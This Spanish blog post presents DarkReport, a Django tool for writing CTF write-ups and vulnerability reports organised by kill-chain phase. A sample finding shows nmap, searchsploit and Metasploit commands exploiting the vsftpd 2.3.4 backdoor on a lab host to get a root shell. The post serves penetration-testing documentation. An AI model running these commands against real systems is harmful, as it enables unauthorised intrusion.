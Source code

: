 ```yaml
---
title: DarkReport
date: 2025-9-11 11:00:00 +0200
categories: [ciberseguridad, software]
tags: [darkreport, writeup, django]     
image:
    path: https://github.com/pmartinezrhub/DarkReport/raw/main/DarkReport/static/DarkReport/dark-report-logo.png
    alt:  
---
```

## DarkReport
Cuando las herramientas que existen no te satisfacen seguramente sea hora de que hagas la tuya propia, la que se adapta a tus necesidades, gustos 
o que tenga mejor usabilidad, rapidez, etc. Como estaba probando tantas herrientas de reporting que me ayudasen a escribir writes ups, tomar notas 
y apuntes de los retos se me ocurrió la idea de crear DarkReport. Lo he diseñado para escribir un write up de un CTF o también para crear un informe de vulnerabilidades. 

## Está basado en las 7 etapas de un ciberataque (killchain)

Como no siempre es necesario las 7 fases ni tampoco es necesario para hacer un reporte, la aplicación esta diseñada para simplificar los reportes sin perder la opción de explicar las 7 fases, cuando se crea un hallazgo algunos campos son obligatorios de otra forma la vulnerabilidad no se explica y si no se explica, no se sabría solucionar. 

- Reconocimiento, es una fase muy importante, pero no siempre necesaria, a veces nos enteramos de que la versión de algún software que estamos utilizando presenta alguna vulnerabilidad. 

- Preparación:  Que herramientas se utilizan para infectar el sistema, troyanizarlo etc, no siempre es requerido dado que por ejemplo un RCE ya nos permite ejecutar comandos en un sistema de forma remota

- Distribución. Me parece muy imporante que los reportes incluya como se entrega el payload aunque en algunos casos sea una obviedad

- Explotación. La explicación técnica de porque ocurre este error/bug o falla de seguridad.

- Instalación: No siempre necesario, pero puede describirse como que programa, malware o rat, queda instalado para ser persistente en el sistema. 

- Comando y control. Como se crea el canal de comunicación con el atacante. Puertos usados, protocolos, etc.

- Acciones en el objetivo: Que acciones puede realizar el adversario una vez tiene comando y control.

![kill chain](https://upload.wikimedia.org/wikipedia/commons/1/1d/Intrusion_Kill_Chain_-_v2.png)

## Login
Por supuesto he implementado una pantalla de login para que no cualquiera pueda entrar a la aplicación.
En el Readme del proyecto podrás encontrar las instrucciones de como cambiar la password por defecto. 
![login](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/login.png)

## Panel principal
Al entrar en la aplicación te encontrarás una vista de general con una métricas y graficos. En el panel izquierdo podemos cerrar sesión y/o crear nuevos proyectos.
![dashboard](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/dashboard.png)

### Idioma
Actualmente podemos seleccionar inglés o español, pero está pensado para traducirse a todos los idiomas posibles medidante el uso de locales. En el panel arriba a la derecha

### Resumen
Contine un resumen de la cantidad de proyectos, reportes y hallazgos. 

### Estadísticas 
Proporciona un grafico de las vulnerabilidades actuales y otro de los CVEs encontrados

## Crear proyectos
Simplemente creas un proyecto que albergará los reportes, podemos ponerle el nombre de la empresa, cliente o del sitio, etc que vamos a auditar. 

## Crear reportes
Cada reporte se crea indicando un objetivo, que puede ser un host, una api, o simplemente inventar un nombre, estos reportes contendrán los hallazgos

## Crear hallazgos
Cuando creamos un hallazgo es donde realmente vamos a idenficar la vulnerabilidad y tratar de explicarla en las 7 fases de pausible ataque. 
Se puede buscar un CVE, la aplicación buscará automáticamente el código CVE-XXX-XXX en la base de datos NITS para cargar el Ajax que nos indica que estamos introduciendo un CVE correcto. 
![find](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/find_detail_view.png)

Al pulsar el botón copiar vamos a obtener un reporte de solo el hallazgo

``` shell
⚠1:  ⚠️ Vulnerabilidad - Remote Code Execution (RCE)
⚠️ CVE: CVE-2011-2523
🔭 Reconocimiento: nmap -p- 10.88.0.2 -sV -vv
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
MAC Address: 72:67:68:3C:12:BD (Unknown)
Service Info: OS: Unix
💣 Preparación: └─$ searchsploit vsftpd 2.3.4
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                                 | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                    | unix/remote/17491.rb
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Result
🚚 Distribución: msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 10.88.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.88.0.2:21 - USER: 331 Please specify the password.
[+] 10.88.0.2:21 - Backdoor service has been spawned, handling...
[+] 10.88.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.88.0.1:42055 -> 10.88.0.2:6200) at 2025-09-08 01:06:11 +0200
whoami
root
🪲 Explotación: En julio de 2011, se descubrió que la versión 2.3.4 de vsftpd, descargable desde el sitio principal, había sido comprometida. Los usuarios que iniciaban sesión en un servidor vsftpd-2.3.4 comprometido podían usar una cara sonriente :) como nombre de usuario y obtener acceso a una consola de comandos en el puerto 6200. Esto no se debía a una vulnerabilidad de seguridad en vsftpd, sino a que alguien había subido una versión diferente de vsftpd que contenía una puerta trasera. Desde entonces, el sitio se migró a Google App Engine.
```
Ahora solo tenemos que pergarlo a nuestro write up o al informe final y añadir lo que necesitemos como marcas de markdown etc. 
Te dejo el ejemplo de como quedó después de retocarlo un mínimo aquí: [dockerlabs-firsthacking](../dockerlabs-firsthacking)

### Campos obligatorios y opcionales
Campos obligatorios:
- Tipo de vulnerabilidad - Por defecto es Information disclouser pero hay una lista de todas la vulnerabilidades conocidas.. 
- Distribución  
- Explotación
- Prioridad - Por defecto baja. Los hallazgos dentro de cada reporte se ordenarán por prioridad.

Campos opcionales:
- CVE - Como ya indique se carga con Ajax contra la API del Nist.
- Preparación
- Instalación
- Comando y control
- Acciones en los objetivos
- Fichero recon . Voy a desarrollarlo más pero de momento he dejado la posibilidad de adjuntar un fichero.

![](https://upload.wikimedia.org/wikipedia/commons/thumb/c/c2/The_Unified_Kill_Chain.png/1920px-The_Unified_Kill_Chain.png)

Por supuesto la herramienta permite modificar los hallazgos así como borrar proyectos, reportes, exportar datos, etc. 

## Desarrollo
DarkReport esta desarrollado con el framework Django (Python)

 - 1 Como cualquier software, evoluciona, irá mutandom mejorando y acepta contribuciones ideas y desarrollos, me gustaría tener opiniones para mejorar la herramienta.

 - 2 Su diseño es iconográfico, sencillo y de momento un diseño oscuro de ahí un poco su nombre. 

Puedes descargarlo y obtener más instrucciones desde de este repositorio de Github
[https://github.com/pmartinezrhub/DarkReport](https://github.com/pmartinezrhub/DarkReport)